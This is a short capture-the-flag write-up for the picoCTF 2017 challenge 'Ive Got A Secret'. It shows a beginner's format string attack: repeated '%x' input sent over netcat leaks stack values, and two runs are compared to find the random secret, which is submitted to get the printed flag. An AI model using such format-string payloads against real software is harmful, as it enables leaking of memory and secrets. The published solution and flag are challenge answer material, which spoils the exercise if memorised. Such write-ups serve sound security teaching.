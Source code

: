 # Ive Got A Secret

> Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:5320.

Hints:

> This is a beginning format string attack.

The easiest way to solve this problem is to run program twice and see which value changed (using format string attack).
As the secret is the only random value, only it should change.
```
$ nc shell2017.picoctf.com 5320
Give me something to say!
%x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 4c73e48b 3 f7fc73c4
Now tell my secret in hex! Secret: 
$ nc shell2017.picoctf.com 5320
Give me something to say!
%x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 df2ef1ee 3 f7fc73c4
Now tell my secret in hex! Secret: df2ef1ee
7662bb6d94ae9ab986288a5353e7b86a
Wow, you got it!
```

The flag is `7662bb6d94ae9ab986288a5353e7b86a`.
